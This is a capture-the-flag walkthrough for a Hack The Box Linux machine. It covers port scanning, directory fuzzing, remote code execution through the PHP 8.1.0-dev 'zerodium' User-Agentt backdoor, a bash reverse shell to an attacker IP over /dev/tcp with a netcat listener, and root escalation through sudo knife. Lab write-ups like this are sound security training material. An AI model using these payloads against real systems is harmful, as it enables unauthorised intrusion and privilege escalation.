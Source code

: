 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.242
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.242
```

---

## 🖼️ Web Enumeration
```bash
# Server response shows:
# X-Powered-By: PHP/8.1.0-dev

# Directory fuzzing:
feroxbuster -u http://10.10.10.242 -o scans/feroxbuster-root-php
```

---

## ⚔️ [PHP Backdoor RCE (CVE-2021-XXXXX)](HTTP)
```http
# Send request with User-Agentt: zerodium
# PHP code in header gets executed.

GET / HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodium system('id');
```

---

## 🚀 Reverse Shell
```bash
# On attacker machine:
nc -lnvp 443

# In Burp / curl:
User-Agentt: zerodium system('bash -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1"');
```

### Shell Upgrade
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
reset
export TERM=screen
```

---

## 🔎 Enumeration (as james)
```bash
whoami
hostname
sudo -l
```

---

## 🔒 Privilege Escalation via `knife`
```bash
# Check sudo rights:
sudo -l
# Output: (root) NOPASSWD: /usr/bin/knife
```

### Method 1: GTFObins - `knife exec`
```bash
sudo knife exec -E "exec '/bin/bash'"
```

### Method 2: Vim Escape
```bash
sudo knife data bag create test output -e vim
# In vim: :!/bin/bash
```

---

## ✅ Flags
```bash
cat /home/james/user.txt
cat /root/root.txt
```

---

## 📋 Resources
- [PHP Backdoor Info](https://news-web.php.net/php.internals/113838)
- [GTFObins - knife](https://gtfobins.github.io/gtfobins/knife/)
- [PHP 8.1.0-dev CVE Threads](https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-insert-secret-backdoor-to-php-source-code/)

